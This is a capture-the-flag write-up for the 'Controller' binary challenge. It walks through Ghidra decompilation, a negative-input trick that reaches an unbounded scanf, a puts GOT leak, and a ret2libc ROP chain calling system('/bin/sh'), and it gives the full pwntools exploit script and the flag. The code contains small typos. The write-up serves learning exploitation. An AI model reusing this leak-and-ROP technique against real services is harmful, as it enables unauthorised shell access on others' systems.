

Controller
Description :

Solution
- We were given an elf- controller and a libc
- On checking the type of file:
controller: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5746004163bf77994992a4c4e3c04565a7ad5d6, not stripped
- On doing checksec:
[*] '/home/adhi-11/Downloads/control/controller'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
- On running it:

-
As it is dynamically linked, and as NX is enabled , we might have to do a ret2libc
-
Let's debug in ghidra:
- main
undefined8 main(void)
{
setvbuf(stdout,(char *)0x0,2,0);
welcome();
calculator();
return 0;
}
-
welcome functions seems normal, so let's move on to other's
-
calculator
void calculator(void)
{
ulong uVar1;
char local_28 [28];
int local_c;
uVar1 = calc();
local_c = (int)uVar1;
if (local_c == 0xff3a) {
printstr("Something odd happened!\nDo you want to report the problem?\n> ");
__isoc99_scanf(&DAT_004013e6,local_28);
if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
printstr("Problem reported!\n");
}
else {
printstr("Problem ingored\n");
}
}
else {
calculator();
}
return;
}
- calc
ulong calc(void)
{
ulong uVar1;
float fVar2;
uint local_18;
uint local_14;
int local_10;
uint local_c;
printstr("Insert the amount of 2 different types of recources: ");
__isoc99_scanf("%d %d",&local_14,&local_18);
uVar1 = menu();
local_10 = (int)uVar1;
if ((69 < (int)local_14) || (0x45 < (int)local_18)) {
printstr("We cannot use these many resources at once!\n");
/* WARNING: Subroutine does not return */
exit(0x69);
}
if (local_10 == 2) {
uVar1 = sub(local_14,local_18);
local_c = (uint)uVar1;
printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,uVar1 & 0xffffffff);
goto LAB_00401061;
}
if (local_10 < 3) {
if (local_10 == 1) {
uVar1 = add(local_14,local_18);
local_c = (uint)uVar1;
printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,uVar1 & 0xffffffff);
goto LAB_00401061;
}
}
else {
if (local_10 == 3) {
uVar1 = mult(local_14,local_18);
local_c = (uint)uVar1 & 0xffff;
printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
goto LAB_00401061;
}
if (local_10 == 4) {
fVar2 = divi(local_14,local_18);
local_c = (uint)(long)fVar2;
printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar2 & 0xffffffff);
goto LAB_00401061;
}
}
printstr("Invalid operation, exiting..\n");
LAB_00401061:
return (ulong)local_c;
}
OVERFLOW
- From calculator(), we understood that our inputs(say, a and b) must be in such a way that on doing any of the above operations on it, should give us 0xff3a (65338). Once we can do that, we will get to " __isoc99_scanf(&DAT_004013e6,local_28);", which is gets as "%s" is unbound. Then we can overflow char local_28 [28]
- In calc(): ((69 < (int)local_14) || (0x45 < (int)local_18)), this condition says if our input is greater than 65, i will show an error statment.
- Inputs : -65338 and -130676
p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')
- Now we got to scanf, to overflow we need to give a junk input of size 40 (32 + 8 padding).
LEAK
- As ASLR,that is in simple terms randomization of base address in libc, might be enabled, we have to leak the libc address.
- Let's leak puts() address from GOT.
- Here, the first argument(address) is to be pooped into RDI.
- The code to leak:
ppop_rdi = next(binary.search(asm('pop rdi; ret'))) #Searching for pop rdi
leak = 40 * b'A' # our overflow value with padding : 32+8
leak += p64(pop_rdi)
leak += p64(binary.got.puts)
leak += p64(binary.plt.puts)
leak += p64(binary.sym.calculator)
p.sendlineafter('> ',leak)
p.recvuntil('ingored\n')
address= u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(address))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.ddress))
RET2LIBC
- Now that we have our addresses, we have to do a basic ret2libc. We have to overflow again and pop the address of "/bin/sh" in RDI .
payload = 40 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

Final Script
from pwn import *
# As, I am running locally, I use this. Else you can connect it to server.
binary = context.binary = ELF('./controller')
p = process(binary.path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# Sening our inputs acc to condition.
p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')
pop_rdi = next(binary.search(asm('pop rdi; ret'))) #Searching for pop rdi
leak = 40 * b'A' # our overflow value with padding : 32+8
leak += p64(pop_rdi)
leak += p64(binary.got.puts)
leak += p64(binary.plt.puts)
leak += p64(binary.sym.calculator)
p.sendlineafter('> ',leak)
p.recvuntil('ingored\n')
puts= u64(p.recv(6) + b'\0\0')
#log.info('puts: ' + hex(aputs)
libc.address = puts - libc.sym.puts
#log.info('libc.address: ' + hex(libc.ddress))
p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')
payload = 40 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)
p.sendlineafter('> ',payload)
p.recvuntil('ingored\n')
p.interactive()
FLAG
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}